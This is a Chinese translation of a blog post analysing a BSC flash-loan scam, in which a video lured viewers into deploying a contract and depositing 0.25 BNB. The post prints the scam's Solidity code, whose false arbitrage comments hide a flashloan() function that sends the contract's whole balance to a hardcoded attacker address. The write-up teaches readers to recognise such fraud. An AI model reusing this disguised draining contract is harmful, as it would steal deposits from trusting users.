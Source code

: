 # Analysis of a technical smart contract scam-一起智能合约骗局剖析


> 原文链接：https://jeiwan.net/posts/flashloan-scam/
>
> 作者：Ivan Kuznetsov
>
> 翻译：https://github.com/7Levy

## 引言

我曾经在油管上看到一个叫做“我是如何在BSC上通过闪电贷套利获取BNB的"的视频。这个视频标题很引人注目，因为在2021年初每个关注加密领域的人知道BSC链，它是以太坊的克隆链，并且大家肯定听说过在这个区块链上的DeFi被多次攻击。

在以太坊上DeFi项目的成功后，币安创造了一个以太坊的复制品，据称币安资助了许多成功和先进的类以太坊DeFi项目。一切看起来都很好，直到2021年春天发生的一系列针对BSC的黑客攻击。

大多数攻击使用的是类似的方案：

1. DeFi合约在代币余额计算上存在漏洞。
2. 攻击者使用闪电贷去扩充代币池。
3. 攻击者随后利用这些漏洞去做一些大额交易或者代币互换操作，欺骗合约认为所有余额都是正确的。
4. 攻击者归还闪电贷后能从中获取些许利润。

所以，对于任何一个听说过这些攻击的人来说（包括我）都跃跃欲试。

## 骗局细节

该视频的作者分享了他们是如何通过闪电贷进行一笔套利并赚取一些BNB（当时BNB价值大概为400美金一个），而且，他们十分大方地分享了这项技术。

1. 观众要去部署一个智能合约去完成这项工作。
2. 为了支付交易费用，观众要在合同中存取0.25BNB。该合约属于观众，所以一切看起来很安全。
3. 然后，观众需要执行合约的闪电贷函数。

作者甚至将合约上传到了以太坊在线IDE Remix上，观众只需要点击几个按钮。不难想到很多人跟着这个教程做然后失去了0.25BNB，他们存入合约然后没有得到任何回报。在写本文的时候，已经有超过44个BNB（17500多美金）被从攻击者的地址存取。

## 如何识破这类骗局

先说第一点，明显的是0.25BNB的费用：对于BSC来说是比十分高昂的手续费，你几乎不会提交一个高额成本的交易。显然，攻击者不希望交易过于可疑，将金额设置的足够低，看起来就像一笔真正的费用，但大到足以满足他们的贪婪。

第二点，如果你不知道一个合约是如何运作的，永远不要去运行它。如下是观众们按照指引部署的合约（注释是作者添加的）。

```
pragma solidity ^0.5.0;

// PancakeSwap Smart Contracts
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeCallee.sol";
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeFactory.sol";

//BakerySwp Smart contracts
import "https://github.com/BakeryProject/bakery-swap-core/blob/master/contracts/interfaces/IBakerySwapFactory.sol";

// Router
import "ipfs://QmUSQQNWBJ6snmx5FvafDSBCPCy63BLTpwM61dYjRzwLkN";

// Multiplier-Finance Smart Contracts
import "https://github.com/Multiplier-Finance/MCL-FlashloanDemo/blob/main/contracts/interfaces/ILendingPoolAddressesProvider.sol";
import "https://github.com/Multiplier-Finance/MCL-FlashloanDemo/blob/main/contracts/interfaces/ILendingPool.sol";

contract InitiateFlashLoan {
    RouterV2 router;
    string public tokenName;
    string public tokenSymbol;
    uint256 flashLoanAmount;

    constructor(
        string memory _tokenName,
        string memory _tokenSymbol,
        uint256 _loanAmount
    ) public {
        tokenName = _tokenName;
        tokenSymbol = _tokenSymbol;
        flashLoanAmount = _loanAmount;
        router = new RouterV2();
    }

    function() external payable {}

    function flashloan() public payable {
        // Send required coins for swap
        address(uint160(router.pancakeSwapAddress())).transfer(
            address(this).balance
        );

        //Flash loan borrowed 3,137.41 BNB from Multiplier-Finance to make an arbitrage trade on the AMM DEX PancakeSwap.
        router.borrowFlashloanFromMultiplier(
            address(this),
            router.bakerySwapAddress(),
            flashLoanAmount
        );

        //To prepare the arbitrage, BNB is converted to BUSD using PancakeSwap swap contract.
        router.convertBnbToBusd(msg.sender, flashLoanAmount / 2);

        //The arbitrage converts BUSD for BNB using BUSD/BNB PancakeSwap, and then immediately converts BNB back to 3,148.39 BNB using BNB/BUSD BakerySwap.
        router.callArbitrageBakerySwap(router.bakerySwapAddress(), msg.sender);

        //After the arbitrage, 3,148.38 BNB is transferred back to Multiplier to pay the loan plus fees. This transaction costs 0.2 BNB of gas.
        router.transferBnbToMultiplier(router.pancakeSwapAddress());

        //Note that the transaction sender gains 3.29 BNB from the arbitrage, this particular transaction can be repeated as price changes all the time.
        router.completeTransation(address(this).balance);
    }
}
```

一切看起来都很不错：

1. 导入官方的PancakeSwap、BakerySwap和Multiplier-Finance合约。
2. 导入一个路由合约(IPFS???)
3. 然后经过flashloan函数发送合约的以太给PancakeSwap的地址，接着从Multiplier-Finance借一笔闪电贷，进行套利交易，支付贷款，最后将一些利润返还给合约。

事实上，合约只做了一件事，它把所有存入合同的BNB发送到了攻击者的地址，IPFS导入看起来很可疑，他们在那里使用IPFS是有原因的：我们因此很难获得路由合约并查看它在做什么。

路由合约包含了很多行使得其混杂难以阅读，但我们不难发现一个重要的部分：

```
...

contract RouterV2 {
    ...
    function pancakeSwapAddress() public pure returns (address) {
        return 0x2593F13d5b7aC0d766E5768977ca477F9165923a;
    }

    ...
}
```

这是主合约将所有资金发送出去的地址。

## 总结

 这个骗局是个很有意思的案例：大多数骗局针对的是不懂技术的加密货币用户，而且这个骗局的目标人群是知道闪电贷攻击、部署合约以及交互的人，这不是一个大众群体，但是就像我们看见的一样，许多人任然成为骗局的受害者。

如果你喜欢阅读区块链安全和黑客事件，我非常推荐去订阅[Blockchain Threat Intelligence](https://blockthreat.substack.com/?utm_source=jeiwan.net&utm_medium=blog&utm_content=textlink)。


